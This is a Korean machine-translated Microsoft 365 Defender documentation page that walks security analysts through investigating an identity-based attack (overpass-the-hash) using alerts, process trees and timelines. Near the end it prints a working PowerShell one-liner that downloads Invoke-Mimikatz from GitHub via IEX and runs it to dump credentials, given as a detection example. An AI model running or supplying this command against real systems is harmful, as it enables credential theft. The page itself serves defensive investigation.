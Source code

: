 ```yaml
---
title: ID 기반 공격의 예
description: ID 기반 공격의 예제 분석을 진행합니다.
keywords: 인시던트, 경고, 조사, 상관 관계, 공격, 컴퓨터, 장치, 사용자, ID, ID, 사서함, 전자 메일, 365, Microsoft, m365, 인시던트 대응, 사이버 공격
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 4f15bf358d180e30ab34abff3105ba77edb6fa0d
ms.sourcegitcommit: d4b867e37bf741528ded7fb289e4f6847228d2c5
ms.translationtype: MT
ms.contentlocale: ko-KR
ms.lasthandoff: 10/06/2021
ms.locfileid: "60149839"
---
```

# <a name="example-of-an-identity-based-attack"></a>ID 기반 공격의 예

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**적용 대상:**
- Microsoft 365 Defender

Microsoft Defender for Identity는 조직에서 ID를 손상하려는 악의적인 시도를 감지하는 데 도움이 될 수 있습니다. ID에 대한 Defender는 Microsoft 365 Defender 통합하기 때문에 보안 분석가가 Id를 위해 Defender에서 오는 위협(예: 의심되는 Netlogon 권한 상승 시도)을 볼 수 있습니다.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Id에 대한 Microsoft Defender의 공격 분석

Microsoft 365 Defender 인시던트 페이지의 경고 탭에서 분석가가 검색 원본을 통해 경고를 필터링할 수 있습니다.  다음 예제에서는 ID에 대한 검색 원본이 **Defender로 필터링됩니다.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="ID에 대한 Defender에 대한 검색 원본 필터링의 예":::

의심되는 **overpass-the-hash** 공격 경고를 선택하면 자세한 정보가 Microsoft Cloud App Security 페이지로 이동합니다. 경고 유형에 대해 자세히 알아보고 공격에  대한 설명과 수정 제안을 읽으면 경고 또는 공격에 대한 자세한 정보를 언제든지 찾을 수 있습니다. [](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Overpass-the-hash 공격 경고의 예입니다."::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>끝점에 대한 Microsoft Defender에서 동일한 공격 조사

또는 분석가가 끝점용 Defender를 사용하여 끝점의 활동에 대해 자세히 배울 수 있습니다. 인시던트 큐에서 인시던트 를 선택한 다음 경고 **탭을** 선택합니다. 여기에서 검색 원본도 식별할 수 있습니다. 검색된 것으로 레이블이 EDR 끝점 검색 및 응답은 끝점용 Defender입니다. 여기에서 분석가가 검색된 경고를 EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Endpoint용 Defender의 끝점 검색 및 응답 예"::: 

경고 페이지에는 영향을 미치는 장치 이름, 사용자 이름, 자동 조사 상태, 경고 세부 정보 등 다양한 관련 정보가 표시됩니다. 경고 스토리는 프로세스 트리의 시각적 표현을 나타냈습니다. 프로세스 트리는 경고와 관련된 상위 및 자식 프로세스의 계층적 표현입니다.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Endpoint용 Defender의 경고 프로세스 트리 예제입니다."::: 

각 프로세스를 확장하여 추가 세부 정보를 볼 수 있습니다. 분석가가 볼 수 있는 세부 정보는 악의적인 스크립트, 아웃바운드 연결 IP 주소 및 기타 유용한 정보의 일부로 입력된 실제 명령입니다.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Endpoint용 Defender의 프로세스 세부 정보 예제입니다.":::
 
시간 표시 **막대에서 참조를** 선택하면 분석가가 드릴다운을 추가하여 정확한 손상 시간을 확인할 수 있습니다. 

끝점용 Microsoft Defender는 여러 악성 파일 및 스크립트를 검색할 수 있습니다. 그러나 아웃바운드 연결, PowerShell 및 명령줄 활동에는 합법적인 사용이 많기 때문에 악의적인 파일이나 활동을 생성하기 전까지는 일부 활동이 무해한 것으로 간주됩니다. 따라서 타임라인을 사용하면 분석가가 주변 활동과 함께 경고를 컨텍스트에 배치하여 일반적인 파일 시스템 및 사용자 활동으로 가려진 원래 공격의 원본이나 시간을 확인할 수 있습니다. 

이를 위해 분석가가 경고 검색 시(빨간색)에 시작하고 뒤로 스크롤하여 악의적인 활동을 주도한 원래 활동이 실제로 시작된 시기를 파악합니다. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="경고 검색 시 시작 예제입니다."::: 

Windows 업데이트 연결, Windows 신뢰할 수 있는 소프트웨어 정품 인증 트래픽, Microsoft 사이트에 대한 기타 일반적인 연결, 타사 인터넷 활동, Microsoft Endpoint Configuration Manager 활동 및 기타 무해한 활동과 같은 일반적인 활동을 이해하고 구분해야 합니다. 이렇게 하는 한 가지 방법은 시간 표시 막대 필터를 사용하는 것입니다. 분석가가 보지 않을 모든 것을 필터링하는 동안 특정 활동을 강조할 수 있는 많은 필터가 있습니다. 

아래 이미지에서 분석가가 네트워크 및 처리 이벤트만 보기 위해 필터링했습니다. 이를 통해 분석가가 IP 주소와의 연결을 설정한 이벤트와 메모장 네트워크 연결 및 프로세스를 볼 수 있습니다. 프로세스 트리에서도 볼 수 있습니다. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="악의적인 아웃바운드 연결을 메모장 방법을 예로 들 수 있습니다."::: 

이 특정 이벤트에서는 메모장 아웃바운드 연결을 만드는 데 사용됩니다. 그러나 일반적으로 iexplorer.exe 웹 브라우저 활동으로 간주되어 공격자는 단순히 iexplorer.exe 사용하여 악의적인 페이로드를 다운로드하기 위한 연결을 설정하기만 합니다.

타임라인에서 찾아야 할 또 다른 항목은 아웃바운드 연결에 PowerShell이 사용하는 것입니다. 분석가가 악성 파일을 호스팅하는 웹 사이트에 대한 아웃바운드 연결과 같은 명령을 사용하여 성공적인 PowerShell 연결을 `IEX (New-Object Net.Webclient)` 찾아야 합니다. 

다음 예제에서는 PowerShell을 사용하여 웹 사이트에서 Mimikatz를 다운로드하고 실행했습니다.

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
분석가가 검색 표시줄에 키워드를 입력하여 PowerShell로 만든 이벤트만 표시하면 키워드를 빠르게 검색할 수 있습니다. 

## <a name="next-step"></a>다음 단계

피싱 [조사 경로를](first-incident-path-phishing.md) 참조합니다.

## <a name="see-also"></a>참고 항목

- [인시던트 개요](incidents-overview.md)
- [인시던트 관리](manage-incidents.md)
- [인시던트 조사](investigate-incidents.md)
